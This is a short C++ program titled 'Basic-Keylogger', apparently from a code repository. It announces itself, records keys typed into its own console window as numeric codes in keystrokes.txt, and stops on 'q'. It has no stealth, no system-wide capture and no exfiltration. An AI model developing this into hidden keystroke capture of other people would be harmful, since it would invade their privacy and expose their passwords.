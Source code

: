 # Basic-Keylogger
#include <iostream>
#include <conio.h>
#include <fstream>

using namespace std;

int main() {
    ofstream logFile("keystrokes.txt"); // Create or open a log file

    if (!logFile.is_open()) {
        cerr << "Error opening log file." << endl;
        return 1;
    }

    cout << "Keylogger started. Press 'q' to quit." << endl;

    while (true) {
        int key = getch(); // Get the pressed key

        if (key == 'q') {
            break; // Exit the loop if 'q' is pressed
        }

        logFile << key << endl; // Log the key to the file
    }

    logFile.close();
    cout << "Keylogger stopped." << endl;

    return 0;
}
